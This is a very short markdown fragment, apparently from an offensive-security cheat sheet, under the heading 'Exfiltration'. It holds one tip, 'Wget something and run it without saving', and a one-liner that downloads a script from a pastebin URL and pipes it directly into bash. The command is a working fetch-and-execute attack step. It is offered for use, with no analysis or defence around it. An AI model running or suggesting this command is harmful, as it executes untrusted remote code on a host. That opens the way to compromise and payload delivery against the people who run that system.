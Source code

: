 # Exfiltration

Wget something and run it without saving

```
wget -q -O - http://pastebin.com/raw.php?i=VURksJnn | bash
```

\
